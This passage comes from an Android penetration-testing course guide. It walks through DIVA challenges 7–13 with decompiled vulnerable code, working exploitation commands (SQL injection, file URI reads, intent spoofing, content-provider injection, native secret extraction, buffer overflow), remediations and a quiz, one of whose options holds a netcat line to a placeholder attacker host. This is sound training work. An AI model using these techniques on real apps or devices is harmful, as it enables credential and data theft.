        // VULNERABLE: Direct string concatenation into raw SQL query
        Cursor cr = this.mDB.rawQuery("SELECT * FROM sqliuser WHERE user = '" + usr.getText().toString() + "'", null);
        StringBuilder sBuilder = new StringBuilder("");
        if (cr != null && cr.getCount() > 0) {
            cr.moveToFirst();
            do {
                sBuilder.append("User: (" + cr.getString(0) + ") Password: (" + cr.getString(1) + ") Credit card: (" + cr.getString(2) + ")\n");
            } while (cr.moveToNext());
        } else {
            sBuilder.append("User not found");
        }
        Toast.makeText(this, sBuilder.toString(), 1).show();
    } catch (Exception e) {
        Log.d("Diva-sqli", "Error occurred while searching in database: " + e.getMessage());
    }
}
```

### 3. Vulnerability Analysis
The search method constructs an SQL command by concatenating unvalidated user input directly into `mDB.rawQuery()`.
If a user supplies an input containing a single quote `'`, they break out of the string literal delimiter, allowing execution of arbitrary SQL syntax.

### 4. Exploitation Walkthrough
1. In DIVA, open **7. INPUT VALIDATION - PART 1**.
2. To test for SQL injection, input a single quote:
   ```text
   '
   ```
   Check logcat to verify syntax failure:
   ```bash
   adb logcat -d -s "Diva-sqli"
   # Output: android.database.sqlite.SQLiteException: unrecognized token: "'''"
   ```
3. Inject the classic boolean tautology payload into the input box:
   ```text
   ' OR 1=1 --
   ```
4. Click **SEARCH**.
5. Result: The application renders a toast dumping **all users, passwords, and stored credit cards**:
   ```text
   User: (admin) Password: (admin123) Credit card: (1234567812345678)
   User: (diva) Password: (password123) Credit card: (9876543298765432)
   User: (john) Password: (doe123) Credit card: (1111222233334444)
   ```

### 5. Secure Remediation
Use **parameterized queries** with selection arguments (`selectionArgs`), which forces SQLite to treat user input strictly as data rather than executable code:

```java
// Secure Implementation: Parameterized Query
String userInput = usr.getText().toString();
Cursor cr = mDB.rawQuery("SELECT * FROM sqliuser WHERE user = ?", new String[]{ userInput });
```

Or implement **Android Jetpack Room ORM**, which enforces compile-time parameterized query validation:
```java
@Dao
public interface UserDao {
    @Query("SELECT * FROM sqliuser WHERE user = :username")
    User findByUsername(String username);
}
```

---

## Challenge 8: Input Validation, Part 2 (Directory Traversal / WebView File URI)

### 1. Objective & Scenario
The app provides a WebView to display content based on a user-supplied URI. Our goal is to leverage this input to access and read private internal files from the application's sandbox.

### 2. Static Code Audit (JADX)
Open `jakhar.aseem.diva.InputValidation2URIActivity`:

```java
// Decompiled from InputValidation2URIActivity.java
public class InputValidation2URIActivity extends AppCompatActivity {
    private WebView mWebView;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_input_validation2_uri);
        this.mWebView = (WebView) findViewById(R.id.ivi2uriView);
        WebSettings webSettings = this.mWebView.getSettings();
        // VULNERABLE: JavaScript and file access explicitly enabled in WebView
        webSettings.setJavaScriptEnabled(true);
    }

    public void view(View view) {
        EditText uriText = (EditText) findViewById(R.id.ivi2uri);
        // VULNERABLE: User-controlled URI loaded directly into WebView without scheme validation
        this.mWebView.loadUrl(uriText.getText().toString());
    }
}
```

### 3. Vulnerability Analysis
The WebView loads any arbitrary URI supplied by the user via `loadUrl()`.
By default on legacy Android targets, the WebView supports the `file:///` scheme. Because the WebView process runs under the application's UID (`jakhar.aseem.diva`), it has full operating system permission to read any file inside its own private sandbox (`/data/data/jakhar.aseem.diva/`).

### 4. Exploitation Walkthrough
1. In DIVA, open **8. INPUT VALIDATION - PART 2**.
2. In the URI input box, enter the `file://` URI pointing to the SharedPreferences file generated in Challenge 3:
   ```text
   file:///data/data/jakhar.aseem.diva/shared_prefs/jakhar.aseem.diva_preferences.xml
   ```
3. Tap **VIEW**.
4. Result: The WebView renders the internal XML file directly on the screen, exposing `cyberadmin` and `SuperP@ssw0rd2026!`!
5. You can also inspect system files such as:
   ```text
   file:///system/etc/hosts
   ```

### 5. Secure Remediation
1. **Disable File Scheme Access:** Explicitly disable local file access in the WebView configuration:
   ```java
   WebSettings settings = mWebView.getSettings();
   settings.setAllowFileAccess(false);
   settings.setAllowContentAccess(false);
   settings.setAllowFileAccessFromFileURLs(false);
   settings.setAllowUniversalAccessFromFileURLs(false);
   ```
2. **Whitelist URL Schemes:** Only permit trusted HTTPS endpoints:
   ```java
   String url = uriText.getText().toString();
   if (url.startsWith("https://trusted-domain.com/")) {
       mWebView.loadUrl(url);
   } else {
       Toast.makeText(this, "Untrusted URL scheme or host", Toast.LENGTH_SHORT).show();
   }
   ```

---

## Challenge 9: Access Control, Part 1 (Exported Activity)

### 1. Objective & Scenario
The challenge features an API credentials viewer protected by an administrative interface. Our goal is to bypass the intended UI navigation and view the credentials directly.

### 2. Static Code Audit (JADX & AndroidManifest.xml)
Examine `diva_source/resources/AndroidManifest.xml`:

```xml
<!-- Extracted from AndroidManifest.xml -->
<activity
    android:name=".APICredsActivity"
    android:label="@string/title_activity_apicreds">
    <intent-filter>
        <action android:name="jakhar.aseem.diva.action.VIEW_CREDS"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
```

Now inspect `APICredsActivity.java`:
```java
// Decompiled from APICredsActivity.java
public class APICredsActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_apicreds);
        // Renders sensitive API keys and shared token secrets directly to the UI
    }
}
```

### 3. Vulnerability Analysis
In Android, any activity declaring an `<intent-filter>` is **exported by default** (`android:exported="true"`), unless explicitly specified otherwise.
Because `APICredsActivity` is exported with no custom permissions (`android:permission`), **any other application or terminal user on the device can launch this Activity directly**, completely bypassing the parent `AccessControl1Activity` authentication gate!

### 4. Exploitation Walkthrough
1. In DIVA, open **9. ACCESS CONTROL - PART 1**. Notice the button requesting authorization.
2. From your Kali terminal, invoke the hidden `APICredsActivity` using ADB's Activity Manager (`am`):

```bash
# Launch the activity directly using component name
adb shell am start -n jakhar.aseem.diva/.APICredsActivity
```

Or trigger it via its registered Intent action:
```bash
adb shell am start -a jakhar.aseem.diva.action.VIEW_CREDS
```

*Output:*
```text
Starting: Intent { act=jakhar.aseem.diva.action.VIEW_CREDS cmp=jakhar.aseem.diva/.APICredsActivity }
```

3. Look at your emulator screen: `APICredsActivity` opens immediately, displaying the sensitive API credentials without requiring any login!

### 5. Secure Remediation
1. **Explicitly Set `android:exported="false"`:** If an activity is meant only for internal use within the app, declare:
   ```xml
   <activity
       android:name=".APICredsActivity"
       android:exported="false"/>
   ```
2. **Protect with Signature Permissions:** If the activity must be shared across apps created by the same developer, guard it with a signature-level permission:
   ```xml
   <permission
       android:name="com.company.permission.ACCESS_CREDS"
       android:protectionLevel="signature"/>

   <activity
       android:name=".APICredsActivity"
       android:permission="com.company.permission.ACCESS_CREDS"
       android:exported="true"/>
   ```

---

## Challenge 10: Access Control, Part 2 (Intent Parameter Spoofing)

### 1. Objective & Scenario
The application implements an improved access control screen requiring a PIN. Our goal is to bypass the PIN validation by tampering with Intent parameters.

### 2. Static Code Audit (JADX)
Open `jakhar.aseem.diva.AccessControl2Activity` and `jakhar.aseem.diva.APICreds2Activity`:

```java
// Decompiled from AccessControl2Activity.java
public void checkPin(View view) {
    EditText pinText = (EditText) findViewById(R.id.ac2Pin);
    if (pinText.getText().toString().equals(this.userPin)) {
        Intent i = new Intent();
        i.setAction("jakhar.aseem.diva.action.VIEW_CREDS2");
        // Sets a boolean flag indicating PIN was verified
        i.putExtra("chk_pin", true);
        startActivity(i);
    } else {
        Toast.makeText(this, "Wrong Pin! Try again.", 0).show();
    }
}
```

Now examine `APICreds2Activity.java`:
```java
// Decompiled from APICreds2Activity.java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_apicreds2);
    Intent i = getIntent();
    boolean chk = i.getBooleanExtra("chk_pin", false);
    // VULNERABLE: Client-side trust in an untrusted Intent extra!
    if (!chk) {
        Toast.makeText(this, "Please enter the pin first!", 0).show();
        finish();
    }
}
```

And check `AndroidManifest.xml`:
```xml
<activity
    android:name=".APICreds2Activity"
    android:label="@string/title_activity_apicreds2">
    <intent-filter>
        <action android:name="jakhar.aseem.diva.action.VIEW_CREDS2"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
```

### 3. Vulnerability Analysis
Although `APICreds2Activity` checks for a boolean extra named `chk_pin`, the activity remains exported. An external attacker can craft an Intent that explicitly includes the extra `--ez chk_pin true`, satisfying the condition and unlocking the screen without providing a PIN.

### 4. Exploitation Walkthrough
1. In DIVA, open **10. ACCESS CONTROL - PART 2**. The app requests a 4-digit PIN.
2. If you enter `1234`, it responds with *"Wrong Pin! Try again."*
3. From your Kali terminal, craft and dispatch an explicit Intent containing the required extra using `am start`:

```bash
# Send Intent with boolean extra chk_pin set to true
adb shell am start -n jakhar.aseem.diva/.APICreds2Activity --ez chk_pin true
```

*Output:*
```text
Starting: Intent { cmp=jakhar.aseem.diva/.APICreds2Activity (has extras) }
```

4. The PIN verification check passes instantly, displaying the second set of API credentials.

### 5. Secure Remediation
1. **Never Rely on Client-Controlled Intent Extras for Authorization:** Intents received from external applications cannot be trusted.
2. **Make the Activity Private:** Set `android:exported="false"`.
3. **Pass Single-Use Cryptographic Tokens:** If an Activity must receive authentication state, pass a cryptographically signed, short-lived nonce generated by an isolated authentication module or verified against a secure local session store.

---

## Challenge 11: Access Control, Part 3 (Content Provider Data Leak & SQLi)

### 1. Objective & Scenario
The app provides a private "Notes" manager backed by a Content Provider. We must inspect and extract all confidential notes without using the application interface.

### 2. Static Code Audit (JADX & AndroidManifest.xml)
Examine `AndroidManifest.xml`:

```xml
<!-- Extracted from AndroidManifest.xml -->
<provider
    android:name=".NotesProvider"
    android:authorities="jakhar.aseem.diva.provider.notesprovider"
    android:exported="true"/>
```

Now inspect `NotesProvider.java`:
```java
// Decompiled from NotesProvider.java
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    SQLiteQueryBuilder qb = new SQLiteQueryBuilder();
    qb.setTables(TABLE_NAME);
    // VULNERABLE: Direct execution of external query parameters without permission enforcement
    Cursor c = qb.query(this.mDB, projection, selection, selectionArgs, null, null, sortOrder);
    c.setNotificationUri(getContext().getContentResolver(), uri);
    return c;
}
```

### 3. Vulnerability Analysis
A **Content Provider** acts as an interface for structured data sharing. In this application:
1. `NotesProvider` is explicitly exported: `android:exported="true"`.
2. No read or write permissions (`android:readPermission` / `android:writePermission`) are declared.
3. Any application on the device can query, insert, or delete notes via `content://jakhar.aseem.diva.provider.notesprovider/notes`.
4. In addition, the query method accepts raw `projection` arguments, allowing full **SQL Injection** through the Content Provider!

### 4. Exploitation Walkthrough

#### Step A: Read Notes via Content Provider
1. In DIVA, open **11. ACCESS CONTROL - PART 3**.
2. Add a new secret note: *"Secret Vault Combination: 49-12-88"*.
3. From your Kali terminal, query the provider URI using the `content` command:

```bash
adb shell content query --uri content://jakhar.aseem.diva.provider.notesprovider/notes
```

*Output:*
```text
Row: 0 _id=1, title=test, note=This is a secret note
Row: 1 _id=2, title=Vault, note=Secret Vault Combination: 49-12-88
```

#### Step B: Exploit SQL Injection via Provider Projection
Because the provider passes the `projection` argument directly into the query builder, we can execute an SQL injection attack across the Content Provider boundary:

```bash
adb shell content query --uri content://jakhar.aseem.diva.provider.notesprovider/notes --projection "* FROM notes --"
```

We can even query SQLite metadata tables like `sqlite_master`:
```bash
adb shell content query --uri content://jakhar.aseem.diva.provider.notesprovider/notes --projection "sql FROM sqlite_master --"
```

*Output:*
```text
Row: 0 sql=CREATE TABLE notes (_id INTEGER PRIMARY KEY AUTOINCREMENT, title TEXT, note TEXT)
```

### 5. Secure Remediation
1. **Set `android:exported="false"`:** If the Content Provider is intended only for internal data management, declare:
   ```xml
   <provider
       android:name=".NotesProvider"
       android:authorities="jakhar.aseem.diva.provider.notesprovider"
       android:exported="false"/>
   ```
2. **Enforce Read/Write Permissions:** If external sharing is required, enforce custom permissions:
   ```xml
   <provider
       android:name=".NotesProvider"
       android:authorities="jakhar.aseem.diva.provider.notesprovider"
       android:readPermission="com.company.permission.READ_NOTES"
       android:writePermission="com.company.permission.WRITE_NOTES"
       android:exported="true"/>
   ```
3. **Use a Projection Whitelist:** In `query()`, validate that requested columns exist in an approved whitelist to eliminate SQL injection risks.

---

## Challenge 12: Hardcoding Issues, Part 2 (Reversing Native Libraries)

### 1. Objective & Scenario
The challenge screen presents an access key validation prompt similar to Challenge 2. However, inspecting the Java source code reveals that validation is delegated to a native C/C++ library. Our task is to reverse engineer the compiled shared library and recover the secret key.

### 2. Static Code Audit (JADX)
Open `jakhar.aseem.diva.Hardcode2Activity` and `jakhar.aseem.diva.DivaJni`:

```java
// Decompiled from Hardcode2Activity.java
public class Hardcode2Activity extends AppCompatActivity {
    private DivaJni djni;
    private EditText mAccessKey;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_hardcode2);
        this.djni = new DivaJni();
        this.mAccessKey = (EditText) findViewById(R.id.hc2Key);
    }

    public void access(View view) {
        // VULNERABLE: Delegates comparison to native JNI function
        if (this.djni.access$000(this.djni, this.mAccessKey.getText().toString()) != 0) {
            Toast.makeText(this, "Access granted! See you on the other side :)", 0).show();
        } else {
            Toast.makeText(this, "Access denied! See you in hell :D", 0).show();
        }
    }
}
```

Now inspect `DivaJni.java`:
```java
// Decompiled from DivaJni.java
public class DivaJni {
    static {
        // Loads libdivajni.so from the APK's /lib/ directory
        System.loadLibrary("divajni");
    }

    private native int access$000(DivaJni divaJni, String str);
    public native int initiateLaunchSequence(String str);
}
```

### 3. Vulnerability Analysis
Developers often assume that moving sensitive secrets from Java to native C/C++ code (`.so` shared objects) provides impenetrable security through obscurity.
In reality, compiled native shared libraries are standard ELF binaries. String literals, comparison logic, and control flow can be inspected effortlessly using `strings`, `radare2`, or `Ghidra`.

### 4. Exploitation Walkthrough

#### Step A: Extract Native Libraries from the APK
An APK is a standard ZIP archive. Unpack it or extract the `/lib/` directory:

```bash
# Unzip the APK to extract native libraries
unzip -q diva-beta.apk -d diva_unzipped

# List extracted shared libraries
ls -la diva_unzipped/lib/
```

*Architectures present:*
- `armeabi/libdivajni.so`
- `x86/libdivajni.so`

#### Step B: Extract Printable Strings
Execute `strings` on the x86 or ARM binary:

```bash
strings diva_unzipped/lib/x86/libdivajni.so | grep -C 2 -i "key"
```

Alternatively, search for common string candidates near JNI symbol names:

```bash
strings diva_unzipped/lib/x86/libdivajni.so | grep -E "^[a-zA-Z0-9_]{6,20}$"
```

*Output reveals several candidate strings:*
```text
divajni
Java_jakhar_aseem_diva_DivaJni_init
Java_jakhar_aseem_diva_DivaJni_access_000
olsdfgadslkj
```

#### Step C: Confirm Disassembly in Radare2 / Ghidra
Disassemble `Java_jakhar_aseem_diva_DivaJni_access_000` using `objdump` or `radare2`:

```bash
r2 -qc "aaa; pdf @ sym.Java_jakhar_aseem_diva_DivaJni_access_000" diva_unzipped/lib/x86/libdivajni.so
```

```text
; -- sym.Java_jakhar_aseem_diva_DivaJni_access_000:
0x00000490    push ebp
0x00000491    mov ebp, esp
0x00000493    sub esp, 0x18
0x00000496    mov eax, dword [ebp + 0x10]   ; User input string
0x00000499    lea edx, [str.olsdfgadslkj]   ; "olsdfgadslkj"
0x0000049f    call sym.imp.strcmp           ; strcmp(userInput, "olsdfgadslkj")
```

The native function directly compares user input against the string literal `"olsdfgadslkj"`.

#### Step D: Unlock the Challenge
1. In DIVA, open **12. HARDCODING ISSUES - PART 2**.
2. Enter the recovered secret key: `olsdfgadslkj`.
3. Press **ACCESS**.
4. Result: *"Access granted! See you on the other side :)"* appears on screen!

### 5. Secure Remediation
1. **Never Hardcode Secrets in Native Binaries:** Native code provides zero protection against static binary analysis and string extraction.
2. **Dynamic Key Exchange:** Derive cryptographic keys at runtime using protocols like Diffie-Hellman (ECDH) or obtain them dynamically from an authenticated backend server.

---

## Challenge 13: Input Validation, Part 3 (Native Buffer Overflow)

### 1. Objective & Scenario
The challenge asks the user to enter a confirmation code to launch a sequence. Our objective is to evaluate how the native C code handles oversized user input and demonstrate a native stack buffer overflow resulting in memory corruption and application crash.

### 2. Static Code Audit (JADX & Native Disassembly)
Open `jakhar.aseem.diva.InputValidation3Activity`:

```java
// Decompiled from InputValidation3Activity.java
public void launch(View view) {
    EditText code = (EditText) findViewById(R.id.ivi3Code);
    DivaJni djni = new DivaJni();
    // VULNERABLE: Direct handoff of uncontrolled user input to native C code
    djni.initiateLaunchSequence(code.getText().toString());
    Toast.makeText(this, "Launch sequence initiated!", 0).show();
}
```

Now examine the decompiled C function `Java_jakhar_aseem_diva_DivaJni_initiateLaunchSequence` from `libdivajni.so`:

```c
// Decompiled Native C source logic from libdivajni.so
JNIEXPORT jint JNICALL Java_jakhar_aseem_diva_DivaJni_initiateLaunchSequence(JNIEnv *env, jobject obj, jstring str) {
    char buffer[32]; // Fixed-size 32-byte stack buffer
    const char *userInput = (*env)->GetStringUTFChars(env, str, 0);

    // VULNERABLE: strcpy copies without checking the length of userInput!
    strcpy(buffer, userInput);

    (*env)->ReleaseStringUTFChars(env, str, userInput);
    return 0;
}
```

### 3. Vulnerability Analysis
The C implementation allocates a fixed 32-byte stack buffer (`char buffer[32]`). It then calls the dangerous, unbounded function `strcpy()` to copy user input into this buffer.

When user input exceeds 32 bytes, `strcpy()` writes past the buffer boundary, overwriting adjacent stack memory—including saved frame pointers and the function's return address (`EIP`/`RIP` or `LR`). This causes an immediate **Segmentation Fault (SIGSEGV)** due to memory corruption.

```text
+-------------------------------------------------------------------------------+
|                       Stack Memory Corruption Layout                          |
+---------------------+-------------------+------------------+------------------+
| buffer [32 bytes]   | Saved Frame Pointer| Return Address   | Unmapped Memory  |
| 'AAAA...AAAA'       | 0x41414141        | 0x41414141       | CRASH (SIGSEGV)  |
+---------------------+-------------------+------------------+------------------+
```

### 4. Exploitation Walkthrough
1. In DIVA, open **13. INPUT VALIDATION - PART 3**.
2. Generate an input string longer than the 32-byte allocated buffer (e.g., 60 characters):
   ```text
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   ```
3. Enter this string into the input field and click **LAUNCH**.
4. Result: The application crashes instantly and terminates with the dialog *"DIVA has stopped"*.
5. Inspect the crash dump in Logcat:

```bash
adb logcat -d | grep -E "SIGSEGV|Fatal signal"
```

*Output:*
```text
F DEBUG   : Fatal signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 0x41414141 in tid 8412 (aseem.diva)
F DEBUG   :     eax 00000000  ebx 00000000  ecx 00000001  edx 41414141
F DEBUG   :     esi 41414141  edi 41414141  ebp 41414141  esp bfd8a120
F DEBUG   :     eip 41414141
```

Notice that the instruction pointer (`eip` on x86) and base pointer (`ebp`) were completely overwritten with our ASCII `A` characters (`0x41414141`), proving that user input achieved direct control over native execution flow!

### 5. Secure Remediation
1. **Use Bounded Functions in C/C++:** Replace `strcpy` with safe, bounded functions like `strncpy` or `snprintf`:
   ```c
   // Secure C Implementation
   size_t inputLen = strlen(userInput);
   if (inputLen >= sizeof(buffer)) {
       // Return error or truncate safely
       return -1;
   }
   strncpy(buffer, userInput, sizeof(buffer) - 1);
   buffer[sizeof(buffer) - 1] = '\0';
   ```
2. **Validate Length in Java Before JNI Call:**
   ```java
   String input = code.getText().toString();
   if (input.length() > 30) {
       Toast.makeText(this, "Input exceeds maximum allowed length", Toast.LENGTH_SHORT).show();
       return;
   }
   djni.initiateLaunchSequence(input);
   ```
3. **Enable Compiler Security Flags:** Compile native libraries with stack canaries (`-fstack-protector-all`), Address Space Layout Randomization (ASLR / `-fPIE -pie`), and Fortify Source (`-D_FORTIFY_SOURCE=2`).

---

# 4. Master Vulnerability & Defense Matrix

The following reference table maps all 13 DIVA challenges to their respective CWEs, OWASP MASVS controls, identification methods, and definitive security remediations:

| # | Challenge Name | Vulnerability Class | CWE | OWASP MASVS | Primary Audit Tool | Secure Remediation |
| :-: | :--- | :--- | :-: | :-: | :--- | :--- |
| **01** | Insecure Logging | Info Disclosure | CWE-532 | MASVS-STORAGE-3 | `adb logcat` | Strip `Log.*` calls in ProGuard/R8; redact sensitive data |
| **02** | Hardcoding Issues - Part 1 | Embedded Secrets | CWE-798 | MASVS-CRYPTO-1 | JADX Decompiler | Authenticate via backend OAuth2/JWT; use Android Keystore |
| **03** | Insecure Storage - Part 1 | Plaintext SharedPreferences | CWE-312 | MASVS-STORAGE-1 | `adb shell /data/data/` | Use `EncryptedSharedPreferences` with AES-256 GCM |
| **04** | Insecure Storage - Part 2 | Plaintext SQLite DB | CWE-312 | MASVS-STORAGE-1 | `sqlite3` / ADB pull | Implement SQLCipher with hardware-backed master keys |
| **05** | Insecure Storage - Part 3 | Insecure Temp Files | CWE-377 | MASVS-STORAGE-1 | `adb shell /cache/` | Avoid disk caching; call `deleteOnExit()`; use `EncryptedFile` |
| **06** | Insecure Storage - Part 4 | World-Readable SDCard | CWE-276 | MASVS-STORAGE-2 | `adb shell /sdcard/` | Use Scoped Storage & internal private storage (`MODE_PRIVATE`) |
| **07** | Input Validation - Part 1 | SQL Injection | CWE-89 | MASVS-CODE-2 | In-app SQL payload | Parameterized queries with `selectionArgs`; Room ORM |
| **08** | Input Validation - Part 2 | Path Traversal / LFI | CWE-22 | MASVS-CODE-3 | `file:///` in WebView | `setAllowFileAccess(false)`; enforce HTTPS domain whitelist |
| **09** | Access Control - Part 1 | Exported Activity | CWE-284 | MASVS-PLATFORM-1 | `adb shell am start` | Declare `android:exported="false"`; require signature perms |
| **10** | Access Control - Part 2 | Intent Parameter Spoofing | CWE-926 | MASVS-PLATFORM-1 | `am start --ez` | Never trust intent extras for state; maintain server session |
| **11** | Access Control - Part 3 | Content Provider Leak & SQLi | CWE-926 | MASVS-PLATFORM-1 | `adb shell content` | `android:exported="false"`; permission guards; whitelist projection |
| **12** | Hardcoding Issues - Part 2 | Native Library Secrets | CWE-798 | MASVS-RESILIENCE-1 | `strings` / Radare2 / Ghidra | Never compile secrets into ELF binaries; use dynamic key exchange |
| **13** | Input Validation - Part 3 | Native Buffer Overflow | CWE-121 | MASVS-CODE-4 | Oversized buffer string | Replace `strcpy` with `strncpy`; compile with `-fstack-protector` |

---

# 5. Summary & Roadmap

Congratulations! You have completed a thorough, professional penetration test against **DIVA (Damn Insecure and Vulnerable App)**:

```text
Part 3 Milestone Checklist:
 [✓] Deployed DIVA APK onto Android Emulator via ADB
 [✓] Configured Burp Suite Community Proxy Listener on Kali Linux
 [✓] Bridged Emulator Traffic (10.0.2.2) to Burp Suite
 [✓] Injected Custom Burp CA into /system/etc/security/cacerts/ for Nougat+
 [✓] Verified Cleartext & HTTPS Traffic Decryption
 [✓] Solved Challenges 1-2: Insecure Logging & Hardcoded Java Secrets
 [✓] Solved Challenges 3-6: Insecure Storage (Prefs, SQLite, Cache, SDCard)
 [✓] Solved Challenges 7-8: SQL Injection & WebView Path Traversal
 [✓] Solved Challenges 9-11: Component Hijacking & Content Provider Leaks
 [✓] Solved Challenges 12-13: Native Shared Library Reversing & Buffer Overflows
```

---

### What's Next in the Course?

In **Part 4**, we will advance our runtime analysis capabilities by introducing dynamic method instrumentation using **Frida** and **Objection**. We will learn how to hook active Java and native methods at runtime, bypass production SSL pinning controls, disable root detection mechanisms on live banking applications, and dump dynamic memory payloads.



* **Part 1:** [Introduction, APK Analysis, JADX & MobSF](../Introduction,%20APK%20Analysis,%20JADX%20&%20MobSF/README.md)
* **Part 2:** [Android Studio, ADB, Root & Non-Root Lab Setup](../Android%20Studio,%20ADB,%20Root%20&%20Non-Root%20Lab%20Setup/README.md)
* **Part 3:** Installing DIVA, Capturing Traffic & Solving All 13 Challenges *(Current Guide)*
* **Part 4:** [System Certificates, Rooted Interception and Bypassing SSL Pinning with Frida](../Android%20Pentesting%20Part%204%20System%20Certificates,%20Rooted%20Interception%20and%20Bypassing%20SSL%20Pinning%20with%20Frida/README.md)

---

# 6. Knowledge Check Questions

Validate your exploitation and assessment findings across the 13 DIVA challenges:

### Question 1
**In DIVA Challenge 1 (Insecure Logging), which command allows a tester on the host workstation to filter and monitor live credit card log output?**
* A) `adb pull /system/logs/credit_card.log`
* B) `adb logcat | grep -i "diva"`
* C) `adb shell dumpsys meminfo diva`
* D) `adb shell am start-logging`

<details>
<summary>View Answer & Explanation</summary>

**Correct Answer: B**  
**Explanation:** Android apps output log statements via `Log.d()`, `Log.v()`, or `Log.e()` directly into the system log buffer. The `adb logcat` command reads this stream in real time, and piping to `grep -i "diva"` filters for tag and package messages.
</details>

---

### Question 2
**In Challenge 7 (Input Validation Issues - Part 1), what type of injection payload successfully extracts all records from the SQLite database?**
* A) `<script>alert(1)</script>`
* B) `' OR 1=1--`
* C) `../../etc/passwd`
* D) `| nc attacker.com 4444`

<details>
<summary>View Answer & Explanation</summary>

**Correct Answer: B**  
**Explanation:** The search query concatenates raw user input into an unparameterized SQL statement: `SELECT * FROM sqliuser WHERE user = '" + input + "'`. Supplying `' OR 1=1--` turns the condition into a tautology, returning every user record in the database.
</details>

---

### Question 3
**In Challenge 9 (Access Control Issues - Part 1), why is `APICredsActivity` accessible without authorization?**
* A) It has `android:allowBackup="true"`.
* B) It is declared with `android:exported="true"` in `AndroidManifest.xml` and lacks any required custom permission, allowing arbitrary launch via `adb shell am start`.
* C) It uses cleartext HTTP.
* D) It runs as UID 0.

<details>
<summary>View Answer & Explanation</summary>

**Correct Answer: B**  
**Explanation:** Activities set to `android:exported="true"` are public IPC endpoints. Because no signature or system permission restricts it, any third-party app or local ADB user can launch the activity directly using `am start -n jakhar.aseem.diva/.APICredsActivity`.
</details>

---

### Question 4
**In Challenge 12 (Hardcoding Issues - Part 2), where is the secret key hidden?**
* A) Inside `AndroidManifest.xml`.
* B) Inside a compiled native shared object library (`libdivajni.so`) within the `/lib/` folder.
* C) In a remote cloud server.
* D) Inside an SQLite database.

<details>
<summary>View Answer & Explanation</summary>

**Correct Answer: B**  
**Explanation:** Challenge 12 shifts key storage from Java bytecode into compiled C native code (`libdivajni.so`). Testers must extract strings using `strings libdivajni.so` or reverse the compiled binary using Ghidra or IDA Pro to find the hardcoded key.
</details>

---

### Question 5
**What memory corruption vulnerability is demonstrated in Challenge 13?**
* A) SQL Injection
* B) Cross-Site Scripting (XSS)
* C) Classic stack-based Buffer Overflow in native C code (`strcpy`), leading to process crashes or control-flow hijacking.
* D) XML External Entity (XXE) injection

<details>
<summary>View Answer & Explanation</summary>

**Correct Answer: C**  
**Explanation:** Challenge 13 passes user-controlled text across JNI to an unbounded `strcpy()` function in `libdivajni.so`. Submitting input longer than the fixed destination buffer corrupts the stack frame, crashing the application with `SIGSEGV`.
</details>

---

# 7. Practical Hands-On Challenge

### Objective
Complete and document the three most critical DIVA vulnerability classes:

1. **Information Leakage**: Solve Challenge 1 (Insecure Logging) and capture a logcat proof-of-concept showing credit card numbers.
2. **Database Exploitation**: Solve Challenge 7 (SQL Injection) and dump credentials from SQLite.
3. **IPC Authorization Bypass**: Solve Challenge 9 (Exported Activity) by forcing navigation to the internal API credentials screen.
4. **Compile Report**: Document all three findings using the [Vulnerability Report Template](../docs/templates/VULNERABILITY_REPORT_TEMPLATE.md).

---

# 8. Lab Reset & Clean Baseline Restoration

To reset the DIVA environment to an untampered baseline after completing testing:

**[WINDOWS HOST]** or **[KALI LINUX VM]**
```bash
# 1. Clear application private storage, databases, and shared preferences
adb shell pm clear jakhar.aseem.diva

# 2. Remove any exported files dropped on the external SD card
adb shell rm -f /sdcard/download/notes.txt /sdcard/diva*.txt

# 3. Clean local logcat buffer before fresh testing runs
adb logcat -c
```

---

## 🔗 Series Navigation

* ⬅️ **Previous Lab:** [Part 2 — Android Studio, ADB, Root & Non-Root Setup](../Android%20Studio,%20ADB,%20Root%20&%20Non-Root%20Lab%20Setup/README.md)
* 📘 **Companion Theory:** [Module 06 — Android Network Security](../docs/modules/06_network_security.md)
* ➡️ **Next Lab:** [Part 4 — System Certificates, Objection & Frida SSL Pinning Bypass](../Android%20Pentesting%20Part%204%20System%20Certificates,%20Rooted%20Interception%20and%20Bypassing%20SSL%20Pinning%20with%20Frida/README.md)

